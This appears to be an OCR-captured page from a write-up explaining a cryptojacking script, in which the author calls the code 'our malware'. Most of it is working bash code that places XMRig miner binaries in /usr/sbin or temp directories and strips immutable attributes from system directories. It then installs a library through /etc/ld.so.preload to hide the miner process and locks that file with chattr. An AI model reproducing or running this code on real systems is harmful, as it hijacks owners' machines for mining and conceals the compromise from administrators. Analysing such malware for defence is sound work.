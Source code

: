 this function performs recon on directory permissions. it checks the writability of the common directories and tries to modify the permissions using `chattr` if they're not writable. it maps the filesystem for locations that are suitable for dropping malicious paths. 

```bash
log "$CYAN" "Handling download XMRig ..."
if [ -w /usr/sbin ] ; then 
  export SPATH=/usr/sbin
  log "$GREEN" "Using /usr/sbin for binary path"
elif [ -w /tmp ] ; then 
  export SPATH=/tmp
  log "$GREEN" "Using /tmp for binary path"
elif [ -w /var/tmp ] ; then 
  export SPATH=/var/tmp
  log "$GREEN" "Using /var/tmp for binary path"
fi

# These files are already downloaded by dropper.sh in /tmp/payloads
log "$BLUE" "Copying binaries from /tmp/payloads to $SPATH"
cp /tmp/payloads/xmx2 $SPATH/xmx2
cp /tmp/payloads/www $SPATH/www
cp /tmp/payloads/cc.py $SPATH/cc.py
cp /tmp/payloads/pt $SPATH/pt
chmod +x $SPATH/xmx2
chmod +x $SPATH/www
chmod +x $SPATH/pt
```

this bit prepares our malware. based on directory permissions, it selects the suitable placement for each file (preferably `/usr/sbin` to appear legitimate) and falls back to temporary directories if the system directories aren't writable. 

```bash
log "$CYAN" "Adding library to hide xmrig process..."
if [ "$SPATH" = "/usr/sbin" ] ; then 
  log "$BLUE" "Removing immutable attributes from system directories"
  chattr -ia / /usr/ /usr/local/ /usr/local/lib/
  
  # Use pre-downloaded xmx2.so from /tmp/payloads
  log "$BLUE" "Copying xmx2.so to /usr/local/lib/"
  cp /tmp/payloads/xmx2.so /usr/local/lib/xmx2.so
  
  if [ -f "/etc/ld.so.preload" ]; then
    log "$BLUE" "Checking if xmx2.so is in preload file"
    cat /etc/ld.so.preload | grep '/usr/local/lib/xmx2.so' 1>/dev/null || {
      log "$YELLOW" "Adding xmx2.so to preload file"
      chattr -ia / /etc/ /etc/ld.so.preload
      echo '/usr/local/lib/xmx2.so' > /etc/ld.so.preload
    }
  else
    log "$YELLOW" "Creating new preload file with xmx2.so"
    echo "" > /etc/ld.so.preload
  fi
  
  log "$BLUE" "Setting immutable attribute on preload file"
  chattr +i /etc/ld.so.preload 
fi
```
